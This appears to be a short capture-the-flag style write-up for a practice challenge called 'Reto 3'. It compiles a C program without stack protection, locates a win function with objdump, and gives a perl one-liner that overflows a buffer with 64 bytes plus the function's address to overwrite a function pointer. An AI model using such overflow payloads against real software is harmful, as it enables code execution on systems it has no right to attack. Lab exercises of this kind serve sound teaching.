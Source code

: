 ## Reto 3

### Compilation:

      gcc reto3.c -o reto3 -fno-stack-protector -m32

### Solution:


We must dissamble reto3 with

      objdump -d ./reto3 >> reto3.asm

Now if we search the function <win>, we will find:

      0804846b <win>:
      804846b:	55                   	push   %ebp
      804846c:	89 e5                	mov    %esp,%ebp

We want the win function to be executed, and and we needed to change the address
 of fp:

      perl -e 'print "A"x64 . "\x6b\x84\x04\x08"' | ./reto3

